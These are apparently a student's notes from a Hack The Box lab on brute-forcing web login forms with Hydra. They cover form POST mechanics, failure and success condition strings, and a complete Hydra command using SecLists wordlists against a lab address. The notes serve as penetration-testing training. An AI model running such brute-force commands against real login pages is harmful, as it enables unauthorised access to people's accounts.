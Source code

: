 Beyond the realm of Basic HTTP Authentication, many web applications employ custom login forms as their primary authentication mechanism. These forms, while visually diverse, often share common underlying mechanics that make them targets for brute forcing.

>login forms are essentially HTML forms embedded within a webpage.

>These forms typically include input fields (`<input>`) for capturing the username and password, along with a submit button (`<button>` or `<input type="submit">`) to initiate the authentication process.


**This form, when submitted, sends a POST request to the `/login` endpoint on the server:**
```html
<form action="/login" method="post">
  <label for="username">Username:</label>
  <input type="text" id="username" name="username"><br><br>
  <label for="password">Password:</label>
  <input type="password" id="password" name="password"><br><br>
  <input type="submit" value="Submit">
</form>
```

```http
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=john&password=secret123
```

- The `Content-Type` header specifies how the data is encoded in the request body.
- The `Content-Length` header indicates the size of the data being sent.

`http-post-form` service is specifically designed to target login forms. It enables the automation of POST requests, dynamically inserting username and password combinations into the request body

```shell-session
AhmaDb0x@htb[/htb]$ hydra [options] target http-post-form "path:params:condition_string"
```

### Understanding the Condition String
failure conditions (`F=...`)
success condition (`S=...`)

conditions > check for a specific string in the server's response that signals a failed login attempt. This is the most common approach because many websites return an error message (like "Invalid username or password") when the login fails. For example, if a login form returns the message "`Invalid credentials`" on a failed attempt, you can configure Hydra like this:
```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"
```

In this case, Hydra will check each response for the string "Invalid credentials." If it finds this phrase, it will mark the login attempt as a failure and move on to the next username/password pair. This approach is commonly used because failure messages are usually easy to identify.

you may not have a clear failure message but instead have a distinct success condition. For instance, if the application redirects the user after a successful login (using HTTP status code `302`), or displays specific content (like "Dashboard" or "Welcome"), you can configure Hydra to look for that success condition using `S=`. Here’s an example where a successful login results in a 302 redirect:

```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```

response that returns an HTTP 302 status code as a successful login. Similarly, if a successful login results in content like "Dashboard" appearing on the page, you can configure Hydra to look for that keyword as a success condition

```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"
```

# Manual Inspection

>`http://`IP:PORT`
Inspect
```html
<form method="POST">
    <h2>Login</h2>
    <label for="username">Username:</label>
    <input type="text" id="username" name="username">
    <label for="password">Password:</label>
    <input type="password" id="password" name="password">
    <input type="submit" value="Login">
</form>
```

### Browser Developer Tools

![Login form with invalid credentials error and network panel showing HTTP POST request details.](https://academy.hackthebox.com/storage/modules/57/devtools.png)
"Network" tab.

----

target path (`/`) and the parameter names (`username` and `password`).

- The form submits data to the root path (`/`).
- The username field is named `username`.
- The password field is named `password`.
- An error message "Invalid credentials" is displayed upon failed login.
```bash
/:username=^USER^&password=^PASS^:F=Invalid credentials
```

```bash
AhmaDb0x@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
AhmaDb0x@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
AhmaDb0x@htb[/htb]$ hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt -f 83.136.250.101 -s 35676 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

83.136.250.101

35676